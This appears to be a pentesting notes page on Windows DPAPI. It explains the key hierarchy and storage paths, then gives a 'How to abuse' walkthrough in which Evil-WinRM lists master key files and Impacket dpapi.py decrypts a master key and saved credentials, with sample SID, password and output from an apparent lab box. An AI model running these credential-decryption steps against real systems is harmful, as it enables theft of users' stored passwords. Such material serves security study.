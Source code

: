 ```yaml
---
description: The DPAPI (Data Protection API) is an internal component in the Windows system
---
```


# DPAPI

DPAPI stands for "Data Protection Application Programming Interface". DPAPI is a cryptographic interface that has been available since Windows 2000. It's important to note that DPAPI itself does not store any data. The sole function of DPAPI is to take plaintext input and convert it into ciphertext.

Among the personal data protected by DPAPI are:

* Internet Explorer and Google Chrome's passwords and auto-completion data
* Email and internal FTP accounts
* Passwords for shared folders, resources, wifi and Windows Vault
* Passwords for RDP
* Network passwords managed by Credential Manager.

### <mark style="color:yellow;">How does it work</mark>

DPAPi is a system thats helps securly store and protect sensitive information as such as passwords, cryptographic keys and other secrets.

#### Key management

DPAPI uses symmetric keys, or just 1 key instead of a keypair which is assymetric. This is derived from user credentials or domain secrets or logon credentials.

#### Where are DPAPI keys store?

The master keys is stored in the following locatin. It uses the SID of a user which containts the keys needed to decrypt data for that user.&#x20;

```powershell
# Master keys
%APPDATA%\Microsoft\Protect\{SID}

# Crome, RDP, Certs
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Protect

# more
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

#### Decryption

The master key protects encryption keys, a symmetric key is derived from user's login credentials to unlock the master key.

#### **Entropy and Initializing Vector (IV)**

* **Entropy** is an optional additional key that can be used during the encryption process.
* It acts as an **Initializing Vector (IV)**, a random value added to the first block of encrypted data.

Adding entropy increases security by ensuring that only the specific user or application with the correct extra key can decrypt the data.

> **Key Point**: Without the correct IV (or entropy), the first block of data cannot be decrypted, which makes decrypting the entire dataset impossible.

#### Process

1. DPAPI generates user key based on password&#x20;
2. DPAPI generates random master key and encrypts it with user key.
3. CryptProtecData is called to create session key which is derived from master key.
4. Password is ecnrypted with session key which encrypts the data.

### <mark style="color:yellow;">How to abuse</mark>

First find the keys

```powershell
*Evil-WinRM* PS C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115> Get-ChildItem -Force
Directory: C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   1:17 PM            740 4dbf04d8-529b-4b4c-b4ae-8e875e4fe847
-a-hs-          6/7/2024   1:17 PM            740 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
-a-hs-          6/7/2024   1:17 PM            904 BK-VINTAGE
-a----         12/2/2024   3:23 PM          14043 ttest.png
-a-hs-          6/7/2024   1:17 PM             24 Preferred
```

Decrypt the masterkey

```powershell
dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

# Example
dpapi.py masterkey -file "/home/kali/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b" -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

Then decrypt credentials using the masterkey

```powershell
dpapi.py credential -file "/home/kali/C4BB96844A5C9DD45D5B6A9859252BA6" -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

